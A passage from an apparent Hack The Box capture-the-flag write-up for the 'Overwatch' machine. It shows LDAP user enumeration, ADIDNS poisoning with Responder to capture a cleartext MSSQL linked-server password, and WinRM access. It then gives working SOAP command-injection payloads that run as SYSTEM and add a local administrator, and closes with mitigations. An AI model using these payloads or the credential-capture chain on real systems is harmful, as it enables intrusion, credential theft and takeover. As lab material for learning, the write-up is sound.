member: CN=Albert Barrett,OU=employees,DC=overwatch,DC=htb
member: CN=Roger Hughes,OU=employees,DC=overwatch,DC=htb
member: CN=Grace Taylor,OU=employees,DC=overwatch,DC=htb
member: CN=Deborah Morgan,OU=employees,DC=overwatch,DC=htb
member: CN=Gareth Ahmed,OU=employees,DC=overwatch,DC=htb
member: CN=Angela Jones,OU=employees,DC=overwatch,DC=htb
member: CN=Martin Kemp,OU=employees,DC=overwatch,DC=htb
member: CN=Benjamin Davison,OU=employees,DC=overwatch,DC=htb
member: CN=Francis Weston,OU=employees,DC=overwatch,DC=htb
member: CN=Natalie Higgins,OU=employees,DC=overwatch,DC=htb
member: CN=Kevin Newton,OU=employees,DC=overwatch,DC=htb
member: CN=Carl Johnson,OU=employees,DC=overwatch,DC=htb
member: CN=Eileen Phillips,OU=employees,DC=overwatch,DC=htb
member: CN=Damien Edwards,OU=employees,DC=overwatch,DC=htb
member: CN=Paul Collins,OU=employees,DC=overwatch,DC=htb
member: CN=Joe Pearce,OU=employees,DC=overwatch,DC=htb
member: CN=Frederick Murray,OU=employees,DC=overwatch,DC=htb
member: CN=Jacqueline Norton,OU=employees,DC=overwatch,DC=htb
member: CN=Karl Smith,OU=employees,DC=overwatch,DC=htb
member: CN=George Todd,OU=employees,DC=overwatch,DC=htb
member: CN=Geraldine Harper,OU=employees,DC=overwatch,DC=htb
member: CN=Victor Hopkins,OU=employees,DC=overwatch,DC=htb
member: CN=Patrick Holmes,OU=employees,DC=overwatch,DC=htb
member: CN=Marie Allan,OU=employees,DC=overwatch,DC=htb
member: CN=Ellie Singh,OU=employees,DC=overwatch,DC=htb
member: CN=Bethan Rogers,OU=employees,DC=overwatch,DC=htb
member: CN=Shaun Jackson,OU=employees,DC=overwatch,DC=htb
member: CN=Catherine Griffiths,OU=employees,DC=overwatch,DC=htb
member: CN=Graham Perry,OU=employees,DC=overwatch,DC=htb
member: CN=Carole Yates,OU=employees,DC=overwatch,DC=htb
member: CN=Jenna Phillips,OU=employees,DC=overwatch,DC=htb
member: CN=Mandy Wood,OU=employees,DC=overwatch,DC=htb
member: CN=Bethan Dale,OU=employees,DC=overwatch,DC=htb
member: CN=Tracey Kelly,OU=employees,DC=overwatch,DC=htb
member: CN=Adam Russell,OU=employees,DC=overwatch,DC=htb
member: CN=Kayleigh Jones,OU=employees,DC=overwatch,DC=htb
member: CN=Michelle Willis,OU=employees,DC=overwatch,DC=htb
member: CN=Debra Arnold,OU=employees,DC=overwatch,DC=htb
member: CN=Amanda Jenkins,OU=employees,DC=overwatch,DC=htb
member: CN=Aaron Robinson,OU=employees,DC=overwatch,DC=htb
member: CN=Colin Roberts,OU=employees,DC=overwatch,DC=htb
member: CN=Terence Matthews,OU=employees,DC=overwatch,DC=htb
member: CN=Thomas Lee,OU=employees,DC=overwatch,DC=htb
member: CN=Jodie Jones,OU=employees,DC=overwatch,DC=htb
member: CN=Jeremy Marshall,OU=employees,DC=overwatch,DC=htb
member: CN=Kenneth Dennis,OU=employees,DC=overwatch,DC=htb
member: CN=Trevor Baker,OU=employees,DC=overwatch,DC=htb
member: CN=Olivia Quinn,OU=employees,DC=overwatch,DC=htb
member: CN=Carole Murray,OU=employees,DC=overwatch,DC=htb
member: CN=Douglas Burrows,OU=employees,DC=overwatch,DC=htb
member: CN=Kim Hargreaves,OU=employees,DC=overwatch,DC=htb
member: CN=Bernard Hilton,OU=employees,DC=overwatch,DC=htb
member: CN=John Begum,OU=employees,DC=overwatch,DC=htb
member: CN=Duncan Freeman,OU=employees,DC=overwatch,DC=htb
member: CN=Aimee Smith,OU=employees,DC=overwatch,DC=htb
member: CN=Rachael Thomas,OU=employees,DC=overwatch,DC=htb
member: CN=Kathryn Bryan,OU=employees,DC=overwatch,DC=htb
member: CN=Tracy Burns,OU=employees,DC=overwatch,DC=htb
member: CN=Charlie Moss,OU=employees,DC=overwatch,DC=htb
```
</details>

Then nxc for clean usernames:

```bash
nxc ldap overwatch.htb -u 'sqlsvc' -p 'TI0LKcfHzZw1Vv' --groups "employees"
```

**Output (key):**
```
LDAP  10.129.244.81  389  S200401  [*] Windows Server 2022 Build 20348 (name:S200401) (domain:overwatch.htb) (signing:None) (channel binding:No TLS cert)
LDAP  10.129.244.81  389  S200401  [+] overwatch.htb\sqlsvc:TI0LKcfHzZw1Vv
LDAP  10.129.244.81  389  S200401  Charlie.Moss
LDAP  10.129.244.81  389  S200401  Tracy.Burns
LDAP  10.129.244.81  389  S200401  Kathryn.Bryan
LDAP  10.129.244.81  389  S200401  Rachael.Thomas
LDAP  10.129.244.81  389  S200401  Aimee.Smith
LDAP  10.129.244.81  389  S200401  Duncan.Freeman
...
LDAP  10.129.244.81  389  S200401  Emily.Cooper
LDAP  10.129.244.81  389  S200401  Roger.Spencer
```

**Reuse test, `sqlsvc` password against employees:**

```bash
nxc smb overwatch.htb -u employees.txt -p 'TI0LKcfHzZw1Vv' -d overwatch.htb --continue-on-success
```

**Output (start):**
```
SMB  10.129.244.81  445  S200401  [*] Windows Server 2022 Build 20348 x64 (name:S200401) (domain:overwatch.htb) (signing:True) (SMBv1:False) (Null Auth:True)
SMB  10.129.244.81  445  S200401  [-] overwatch.htb\Aaron.Ro
```

**Result:** no reuse hits.

**Sibling account test:**

```bash
nxc smb overwatch.htb -u 'sqlmgmt' -p 'TI0LKcfHzZw1Vv' --continue-on-success
```

**Output:**
```
SMB  10.129.244.81  445  S200401  [*] Windows Server 2022 Build 20348 x64 (name:S200401) (domain:overwatch.htb) (signing:True) (SMBv1:False) (Null Auth:True)
SMB  10.129.244.81  445  S200401  [-] overwatch.htb\sqlmgmt:TI0LKcfHzZw1Vv STATUS_LOGON_FAILURE
```

**Result:** `sqlmgmt` does **not** share `sqlsvc`'s password.

---

## Phase 6, MSSQL (Non-Standard Port) and Linked Server

**Objective:** the hardcoded credential is a **SQL login**. MSSQL is on **6520** (not 1433, that's why the earlier `nxc mssql` default failed).

Since credential reuse against other accounts failed, it's time to actually use the credential for what it was created for, logging into MSSQL, rather than continuing to treat it only as a domain credential.

### 6.1 Connect to MSSQL

```bash
impacket-mssqlclient -windows-auth overwatch.htb/sqlsvc:'TI0LKcfHzZw1Vv'@10.129.244.81 -port 6520
```

**Output:**
```
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(S200401\SQLEXPRESS): Line 1: Changed database context to 'master'.
[*] INFO(S200401\SQLEXPRESS): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server 2022 RTM (16.0.1000)
[!] Press help for extra shell commands
SQL (OVERWATCH\sqlsvc  guest@master)>
```

**Interpretation:** authenticated as `OVERWATCH\sqlsvc` to `S200401\SQLEXPRESS` (SQL Server 2022).

### 6.2 Enumerate Linked Servers

Once inside MSSQL, a standard check is for linked servers, these let one SQL instance query another, and if the linked server's configured login has higher privileges than the one used to connect, it's a classic privilege bridge.

```sql
enum_links
```

**Output:**
```
SRV_NAME             SRV_PROVIDERNAME   SRV_PRODUCT   SRV_DATASOURCE       SRV_PROVIDERSTRING   SRV_LOCATION   SRV_CAT
------------------   ----------------   -----------   ------------------   ------------------   ------------   -------
S200401\SQLEXPRESS   SQLNCLI            SQL Server    S200401\SQLEXPRESS   NULL                 NULL           NULL
SQL07                SQLNCLI            SQL Server    SQL07                NULL                 NULL           NULL

Linked Server   Local Login   Is Self Mapping   Remote Login
-------------   -----------   ---------------   ------------
```

**Interpretation:** linked server **`SQL07`** with data source `SQL07`, a **hostname with no DNS record**. The remote-login mapping table is empty → it will use its configured login (later proven to be `sqlmgmt`).

### 6.3 First Trigger Attempt (before DNS fix)

The only way to know what the linked server actually does when queried is to try querying through it, `OPENQUERY` is the standard T-SQL syntax for running a query against a linked server.

```sql
SELECT * FROM OPENQUERY([SQL07], 'SELECT @@VERSION AS VersionInfo');
```

**Output:**
```
INFO(S200401\SQLEXPRESS): Line 1: OLE DB provider "MSOLEDBSQL" for linked server "SQL07" returned message "Communication link failure".
ERROR(MSOLEDBSQL): Line 0: TCP Provider: An existing connection was forcibly closed by the remote host.
```

**Interpretation:** the linked server tries to resolve `SQL07` and fails, **this failure confirms the hostname is used**, which is the exploitable weakness.

### 6.4 ADIDNS Poisoning

Since `SQL07` has no DNS record and the server tries to resolve it by name, and ADIDNS (Active Directory-Integrated DNS) allows any authenticated user to create new records by default, the hostname can simply be claimed, pointing it at the attacker's own IP so the SQL server's connection attempt lands here instead.

Find dnstool:

```bash
find / -name "dnstool.py" 2>/dev/null
```
```
/home/hyena/Downloads/NetExec/krbrelayx/dnstool.py
/home/hyena/Downloads/logs/gMSADumper/krbrelayx/dnstool.py
```

Create the record (`SQL07` → attacker tun0 IP):

```bash
python3 /home/hyena/Downloads/NetExec/krbrelayx/dnstool.py -u 'OVERWATCH\sqlsvc' -p 'TI0LKcfHzZw1Vv' -r SQL07 -a add -d 10.10.15.7 10.129.244.81
```

**Output:**
```
[-] Connecting to host...
[-] Binding to host
[+] Bind OK
[-] Adding new record
[+] LDAP operation completed successfully
```

**Interpretation:** **any authenticated domain user can create ADIDNS records by default.** `SQL07` now resolves to `10.10.15.7`, the attacker.

### 6.5 Start Responder

With `SQL07` now resolving to the attacker's machine, a listener needs to be running to actually catch whatever the SQL server sends when it "calls" `SQL07`, Responder is the standard tool for capturing credentials offered during protocol negotiation, including MSSQL's own authentication handshake.

```bash
sudo responder -I tun0 -v
```

**Output:**
```
[+] Listening for events...
```

### 6.6 Trigger and Capture

The same `OPENQUERY` that failed before should now succeed in reaching "SQL07", except this time it reaches Responder instead of a real server, which means whatever authentication the local SQL server tries to perform against it gets captured.

In the MSSQL shell:
```sql
SELECT * FROM OPENQUERY([SQL07], 'SELECT @@VERSION AS VersionInfo');
```

Responder output:
```
[MSSQL] Received connection from 10.129.244.81
[MSSQL] Cleartext Client   : 10.129.244.81
[MSSQL] Cleartext Hostname : SQL07 ()
[MSSQL] Cleartext Username : sqlmgmt
[MSSQL] Cleartext Password : bIhBbzMMnB82yx
```

**What happened (plain):** the SQL server had a saved login for `SQL07` (`sqlmgmt`). You rewrote DNS so `SQL07` = you. You told the SQL server "call SQL07 now." It dialed you and **said `sqlmgmt`'s username and password out loud** to log in. You didn't crack anything, the server handed it over.

**Vulnerability:** MSSQL linked server to an unresolvable host + writable ADIDNS → **cleartext credential disclosure** via Responder (CWE-522 / misconfiguration).

### 6.7 Cleanup (professional habit)

Leaving a hijacked DNS record in place after the engagement is sloppy and can break the environment for other testers or cause unintended side effects, removing it is standard professional hygiene once the credential has been captured.

After capturing, remove the DNS record:

```bash
python3 /home/hyena/Downloads/NetExec/krbrelayx/dnstool.py -u 'OVERWATCH\sqlsvc' -p 'TI0LKcfHzZw1Vv' -r SQL07 -a remove 10.129.244.81
```

---

## Phase 7, Foothold (WinRM as `sqlmgmt`)

### 7.1 Connect

`sqlmgmt`'s credential was just captured in cleartext, and the earlier LDAP enumeration showed one member of `Remote Management Users`, the obvious next step is to test whether this freshly captured account is that member and can WinRM in directly.

```bash
evil-winrm -i overwatch.htb -u sqlmgmt -p 'bIhBbzMMnB82yx'
```

**Output:**
```
Evil-WinRM shell v3.9
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\sqlmgmt\Documents>
```

**Foothold achieved** as `overwatch\sqlmgmt`.

### 7.2 Situational Awareness

The moment a shell lands, the standard first move is situational awareness, checking group memberships and privileges, to see whether there's an immediate, obvious path to full admin before looking anywhere else.

```powershell
whoami /groups
```

**Output:**
```
GROUP INFORMATION
-----------------
Group Name                                  Type             SID          Attributes
=========================================== ================ ============ ==================================================
Everyone                                    Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users             Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                               Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                        Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization              Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication            Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Plus Mandatory Level Label            S-1-16-8448
```

```powershell
whoami /priv
```

**Output:**
```
PRIVILEGES INFORMATION
----------------------
Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

**Interpretation:**

- **`Remote Management Users`** → explains WinRM access.
- **No `Administrators`** → plain user, no group shortcut.
- **No `SeImpersonatePrivilege`** → no Potato attacks.
- **No `SeDebug`/`SeBackup`** → no memory/file shortcuts.
- Medium Plus integrity.

**Conclusion:** no privilege shortcut. The intended path is the **`KillProcess` command injection on localhost:8000**.

---

## Phase 8, Privilege Escalation to SYSTEM (localhost SOAP injection)

With no privilege shortcut available locally, the path identified all the way back in Phase 2–3 can finally be used, the WCF service on port 8000 was unreachable from outside the box, but now that there's a shell *on* the box, it should be reachable over loopback.

### 8.1 Confirm the Service Locally

Port 8000 was **filtered externally**, but from *on* the box it's reachable.

```powershell
Invoke-WebRequest -Uri "http://localhost:8000/MonitorService?wsdl" -UseBasicParsing | Select-Object -ExpandProperty Content
```

**Output (key parts):**
```xml
<wsdl:definitions name="MonitoringService" targetNamespace="http://tempuri.org/" ...>
  <wsdl:portType name="IMonitoringService">
    <wsdl:operation name="StartMonitoring">
      <wsdl:input wsaw:Action="http://tempuri.org/IMonitoringService/StartMonitoring" .../>
      ...
    </wsdl:operation>
    <wsdl:operation name="StopMonitoring">
      ...
    </wsdl:operation>
    <wsdl:operation name="KillProcess">
      <wsdl:input wsaw:Action="http://tempuri.org/IMonitoringService/KillProcess" .../>
      ...
    </wsdl:operation>
  </wsdl:portType>
  <wsdl:binding name="BasicHttpBinding_IMonitoringService" type="tns:IMonitoringService">
    <soap:binding transport="http://schemas.xmlsoap.org/soap/http"/>
    <wsdl:operation name="KillProcess">
      <soap:operation soapAction="http://tempuri.org/IMonitoringService/KillProcess" style="document"/>
      ...
    </wsdl:operation>
  </wsdl:binding>
  <wsdl:service name="MonitoringService">
    <wsdl:port name="BasicHttpBinding_IMonitoringService" binding="tns:BasicHttpBinding_IMonitoringService">
      <soap:address location="http://overwatch.htb:8000/MonitorService"/>
    </wsdl:port>
  </wsdl:service>
</wsdl:definitions>
```

**Interpretation:** `KillProcess` exposed, `basicHttpBinding` (SOAP 1.1), document style, `soapAction` known. Service live on localhost.

**Note:** the first attempt used `curl`, which in PowerShell aliases `Invoke-WebRequest` and failed with an IE-engine error. `-UseBasicParsing` fixed it, **the connection itself was fine**.

### 8.2 Prove the Injection (`whoami`)

**Why a "whoami" first:** non-destructive, unambiguous, proves *context* (which account it runs as).

The decompiled source already showed exactly how `KillProcess` builds its PowerShell command, so the injection payload can be crafted directly from that knowledge rather than guessing blind, `;` starts a new command and `#` comments out the rest of the original line so the syntax stays valid.

```powershell
$body = @'
<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
  <soap:Body>
    <KillProcess xmlns="http://tempuri.org/">
      <processName>x; whoami; #</processName>
    </KillProcess>
  </soap:Body>
</soap:Envelope>
'@

$headers = @{
  "Content-Type" = "text/xml; charset=utf-8"
  "SOAPAction"   = "http://tempuri.org/IMonitoringService/KillProcess"
}

Invoke-WebRequest -Uri "http://localhost:8000/MonitorService" -Method POST -Headers $headers -Body $body -UseBasicParsing | Select-Object -ExpandProperty Content
```

**Output:**
```xml
<s:Envelope xmlns:s="http://schemas.xmlsoap.org/soap/envelope/"><s:Body><KillProcessResponse xmlns="http://tempuri.org/"><KillProcessResult>nt authority\system&#xD;
&#xD;
</KillProcessResult></KillProcessResponse></s:Body></s:Envelope>
```

**Confirmed:** `nt authority\system`, **command injection as SYSTEM**.

### 8.3 Why the Injection Works (explanation)

The vulnerable line:

```csharp
string text = "Stop-Process -Name " + processName + " -Force";
val2.Commands.AddScript(text);
```

Input `x; whoami; #` becomes:

```powershell
Stop-Process -Name x; whoami; # -Force
```

| Part | Effect |
|---|---|
| `Stop-Process -Name x` | Fails (no process `x`), execution continues. |
| `;` | **Command separator**, starts a new command. |
| `whoami` | Runs as a second command. |
| `#` | **Comments out** the trailing `-Force` so syntax stays valid. |

Since the service runs as **SYSTEM**, the injected command runs as SYSTEM. That's **CWE-78: OS Command Injection**, user input crossing from *data* into *code*.

**SOAP envelope role:** it's just transport. The four fields that map WSDL → working request: **namespace** (`http://tempuri.org/`), **SOAPAction** (`.../KillProcess`), **element** (`KillProcess`), **parameter** (`processName`). GET won't work, SOAP operations are POST.

### 8.4 Capture SYSTEM Access

Proving `whoami` runs as SYSTEM is enough to demonstrate the vulnerability, but a lasting, usable SYSTEM-equivalent session is the actual goal, the cleanest way to get that is to use the same injection to create a brand-new local administrator account, rather than trying to keep the one-shot injection channel open as an interactive shell.

**Option A, add a local admin** (recommended; gives a stable elevated WinRM session):

```powershell
$body = @'
<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
  <soap:Body>
    <KillProcess xmlns="http://tempuri.org/">
      <processName>x; net user pwned 'P@ssw0rd123!' /add; net localgroup Administrators pwned /add; #</processName>
    </KillProcess>
  </soap:Body>
</soap:Envelope>
'@

$headers = @{ "Content-Type"="text/xml; charset=utf-8"; "SOAPAction"="http://tempuri.org/IMonitoringService/KillProcess" }

Invoke-WebRequest -Uri "http://localhost:8000/MonitorService" -Method POST -Headers $headers -Body $body -UseBasicParsing | Select-Object -ExpandProperty Content
```

Then from Kali:

```bash
evil-winrm -i overwatch.htb -u pwned -p 'P@ssw0rd123!'
```

Read root:

```powershell
type C:\Users\Administrator\Desktop\root.txt
```

**Option B, copy root.txt via the injection:**

```
x; cmd /c copy C:\Users\Administrator\Desktop\root.txt C:\Users\sqlmgmt\Desktop\r.txt; #
```

Then `type C:\Users\sqlmgmt\Desktop\r.txt` from the existing shell.

**Note:** HTB flags are **dynamic**, if the machine is reset, the old flag value is invalid; re-read it from the fresh instance. Don't power off the box before recording the flag.


---

## Complete Attack Chain

```
Guest (blank password) → SMB `software$` (READ)
        ↓
overwatch.exe.config → WCF on localhost:8000 (filtered externally) + debug mode
        ↓
ilspycmd decompile → hardcoded `sqlsvc : TI0LKcfHzZw1Vv` + KillProcess/SQLi source
        ↓
Valid DOMAIN credential (SMB/LDAP), NOT WinRM
        ↓
Kerberoast (no SPNs) / AS-REP (no preauth-less) / AD CS (not deployed) / BH (no outbound ACLs) → all closed
        ↓
MSSQL on port 6520 → `enum_links` → linked server `SQL07` (unresolvable)
        ↓
ADIDNS poison `SQL07` → attacker IP → Responder captures cleartext `sqlmgmt : bIhBbzMMnB82yx`
        ↓
WinRM as `sqlmgmt` (Remote Management Users) → foothold
        ↓
whoami /priv → no SeImpersonate → no shortcut
        ↓
localhost:8000 SOAP `KillProcess("x; whoami; #")` → nt authority\system
        ↓
SYSTEM → add admin / read root.txt
```

---

## Vulnerabilities Found

| # | Vulnerability | CWE | Severity |
|---|---|---|---|
| 1 | Guest account enabled with blank password; hidden share readable | CWE-521 / CWE-284 | High |
| 2 | Hardcoded MSSQL credential in deployment artifact | CWE-798 | Critical |
| 3 | MSSQL linked server to unresolvable host + writable ADIDNS → cleartext credential capture | CWE-522 | Critical |
| 4 | WCF `KillProcess()` PowerShell command injection (runs as SYSTEM) | CWE-78 | Critical |
| 5 | `LogEvent()` SQL injection | CWE-89 | High |
| 6 | SMB signing required (positive control, noted) |, |, |
| 7 | Kerberoast/AS-REP/AD CS absent (negative results, noted) |, |, |

---

## Final Flags

**User Flag:** read from `C:\Users\sqlmgmt\Desktop\user.txt` on the live instance
**Root Flag:** read from `C:\Users\Administrator\Desktop\root.txt` on the live instance

> HTB flags are dynamic. Record them immediately after reading; they become invalid on machine reset.

---

## Mitigations

1. **Disable the guest account** (`net user guest /active:no`) and never allow blank-password auth.
2. **ACL hidden shares** to specific service accounts, not guest/authenticated users.
3. **Never store secrets in deployment artifacts**, use a secrets manager; scan artifacts for credentials before publishing.
4. **Restrict ADIDNS record creation** to administrators; monitor for new A records pointing to non-domain hosts.
5. **Pin linked-server data sources to IPs or resolvable names**; avoid hostnames that can be poisoned.
6. **Disable cleartext MSSQL auth** to linked servers; enforce encryption and certificate validation.
7. **Fix `KillProcess`**, pass the process name as a PowerShell *parameter* (`AddCommand("Stop-Process").AddParameter("Name", $name)`), not via `AddScript` concatenation. Validate input (`^[A-Za-z0-9_.-]+$`).
8. **Fix `LogEvent`**, use parameterized SQL commands.
9. **Run the WCF service as a low-privilege account**, not SYSTEM.
10. **Bind port 8000 to localhost only** (it already is, keep it that way) and avoid debug fault detail in production (`includeExceptionDetailInFaults="false"`).

---

**Pentester: RanvenHex**
**Machine: Overwatch (Medium), Full Domain Compromise via Misconfiguration + Insecure .NET Development**
